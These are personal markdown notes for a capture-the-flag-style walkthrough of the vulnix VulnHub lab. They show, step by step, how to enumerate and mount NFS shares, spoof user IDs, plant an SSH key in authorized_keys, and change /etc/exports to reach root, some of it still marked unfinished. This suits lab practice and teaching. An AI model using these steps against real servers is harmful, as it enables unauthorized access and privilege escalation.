 # Network File System (NFS)

**Based on vulnix VM on vulnhub**

If NFS ports are open

	showmount -e <ip>
	<returns shared directories> e.g /home/vulnix

Mounting the NFS directory

		cd ~
		mkdir vulnix
		mount -t nfs <ip>:/home/vulnix ~/vulnix
		
View permissions and stuff of the new directory

		ls -ld vulnix
		<this may not show the UID and GID, showing as 'nobody'>
		<e.g drwxr-x--- 2 nobody nobody 4096 Sep  2  2012 vulnix>
		and/or
		stat vulnix
		
Mount differently if cant see UID and GID

		mount -t nfs -o vers=3 <ip>:/home/vulnix ~/vulnix
		ls -ld vulnix
		<should show the real UID and GID this time>
		<e.g mount -t nfs -o vers=3 192.168.2.4:/home/vulnix ~/vulnix >
		
Create a spoof user

		groupadd --gid 2008 vulnix_group
		useradd --uid 2008 --groups vulnix_group vulnix_user
		sudo -u vulnix_user ls -a vulnix
		<if you have permissions now, it should show the file listing in the directory>
		
Can also use nfspy, this spoofs user instead of really creating it
https://github.com/bonsaiviking/NfSpy

		nfspy -o server=192.168.2.4:/home/vulnix,nfsport=2049/tcp,rw vulnix
		or for root:
		nfspy -o server=192.168.2.4:/,nfsport=2049/tcp,rw ~/vulnix_root


SSL KEY STUFF (figure this out later) original url: https://medium.com/@Kan1shka9/hacklab-vulnix-walkthrough-b2b71534c0eb

		root@kali:~# ls /root/.ssh/
		root@kali:~# ssh-keygen
		Generating public/private rsa key pair.
		Enter file in which to save the key (/root/.ssh/id_rsa):
		Enter passphrase (empty for no passphrase):
		Enter same passphrase again:
		Your identification has been saved in /root/.ssh/id_rsa.
		Your public key has been saved in /root/.ssh/id_rsa.pub.
		The key fingerprint is:
		SHA256:VoZMUJiHramBTJnCofq3Osa2s3JaFFJP0yct0V5KKwU root@kali
		The key's randomart image is:
		+---[RSA 2048]----+
		|..ooo.E%o        |
		|oo+o .BoO..      |
		|o+...  @o+o      |
		|..o.. + +o       |
		|. .  o .S        |
		| o  .  .         |
		| .o .            |
		|..B. .           |
		|.*+*.            |
		+----[SHA256]-----+
		root@kali:~# ls /root/.ssh/
		id_rsa  id_rsa.pub
		root@kali:~# cat /root/.ssh/id_rsa.pub
		ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC42NpxutFyfjQuOtZRiHzS/HRgCDQZZrrmizKrLmnhWy4RbzMqFc/URB22QtHkQLnX4libQkGKaSce2bEE2mF0DKB8oX/O9L+J7BYf5d7C6UQ1fLXN1Tg3Ls4QbKBrQGKPH14rdmzSe+ESKc5fE+cvBhB7f8Ub4HnZTDhLCSLJoyzNf85BkU/QjjWymxEXaoSDhg9vPgXEeQAAUCikkpcTwE5PVGG8z+m1fR0OZnzm45sfe2b+NI18owH60oGm8n8O6jOivsvlohXpNrcCm2Ago994zVA4V9ntPd6owXb77Wu1w8Zz1x1dK79QvIook18B6SIhnjJWyFgxHox2Gg8F root@kali


Copy key into target's authorized keys(figure this out later too)

		root@kali:~# su vulnix
		$ cd /tmp/nfs
		$ ls -la
		total 20
		drwxr-x---  2 vulnix vulnix 4096 May 16 16:25 .
		drwxrwxrwt 15 root   root   4096 May 16 18:36 ..
		-rw-r--r--  1 vulnix vulnix  220 Apr  3  2012 .bash_logout
		-rw-r--r--  1 vulnix vulnix 3486 Apr  3  2012 .bashrc
		-rw-r--r--  1 vulnix vulnix  675 Apr  3  2012 .profile
		$ mkdir .ssh
		$ cd .ssh
		$ echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC42NpxutFyfjQuOtZRiHzS/HRgCDQZZrrmizKrLmnhWy4RbzMqFc/URB22QtHkQLnX4libQkGKaSce2bEE2mF0DKB8oX/O9L+J7BYf5d7C6UQ1fLXN1Tg3Ls4QbKBrQGKPH14rdmzSe+ESKc5fE+cvBhB7f8Ub4HnZTDhLCSLJoyzNf85BkU/QjjWymxEXaoSDhg9vPgXEeQAAUCikkpcTwE5PVGG8z+m1fR0OZnzm45sfe2b+NI18owH60oGm8n8O6jOivsvlohXpNrcCm2Ago994zVA4V9ntPd6owXb77Wu1w8Zz1x1dK79QvIook18B6SIhnjJWyFgxHox2Gg8F root@kali > authorized_keys


Copy own key into target's authorized keys

		cp ~/.ssh/id_rsa.pub vulnix/.ssh/authorized_keys

SSH into target

		ssh vulnix@<ip>
		
** extras **

		cat /etc/exports
		/home/vulnix	*(rw,root_squash)

can add the following into /etc/exports to export the whole machine


		/		*(rw,no_root_squash)
		
find a way to restart computer or service
remount the thing
spoof root uid and gid
add new key again
ssh in as root


Link to walkthrough
https://blog.christophetd.fr/write-up-vulnix/
